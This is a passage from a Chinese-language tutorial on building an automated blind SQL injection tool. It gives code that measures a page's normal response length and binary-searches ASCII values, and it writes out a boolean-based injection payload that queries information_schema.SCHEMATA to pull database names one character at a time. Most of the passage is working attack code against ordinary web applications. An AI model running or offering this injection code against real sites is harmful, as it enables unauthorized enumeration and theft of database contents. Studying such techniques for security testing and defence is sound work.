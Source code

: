 相对于获取数据库的个数，我们这里多了一个DataBaseindex的参数，用来得到指定编号的数据库名称的长度，思路和获取数据库个数一样的，只不过payload不一样罢了。

### 获取页面的正常长度

通过访问正常页面得到原先的长度值：

```js
function GetRealLength(url){
	res = HttpGet(url,"User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:86.0) Gecko/20100101 Firefox/86.0");
	return GetStrLength(res[0]);
}
```

### 二分法判断某一位的值

正方法是写在SQLAttack.wker中的，因为是基础方法

二分法如果不清楚的话呢去百度一下很简单的，二分法的代码：

```js
function dichotomy(url,sentence,length){
	max = 128;
	min = 0;
	medium = 64;
	while((max-min) > 1){
		if(JudgeRESEqule(url.URLEncode(sentence.medium),length) == 1){
			min = medium;
		}else{
			max = medium;
		}
		medium = ToInt((max+min)/2);
	}
	if(JudgeRESEqule(url.URLEncode(sentence.ToInt(min)),length) == 1){
		return ToInt(max);
	}else{
		return ToInt(min);
	}
}
```

因为我们要从0-128中猜一个数字，所以我们就定义最大最小值为128和0。

然后我们还是通过`JudgeRESEqule`判断我们猜的值对不对。

参数和`TakeLength`一样

### 获取数据库某一位的值

```js
function GetDataBaseStr(url,length,DataBaseindex,StringIndex,ArgDefalutText){
	return AsciiToChar(dichotomy(url,ArgDefalutText." and (SELECT ascii(SUBSTRING((SELECT SCHEMA_NAME from information_schema.SCHEMATA limit ".DataBaseindex.",1),".StringIndex.",1)))>",length));
}
```
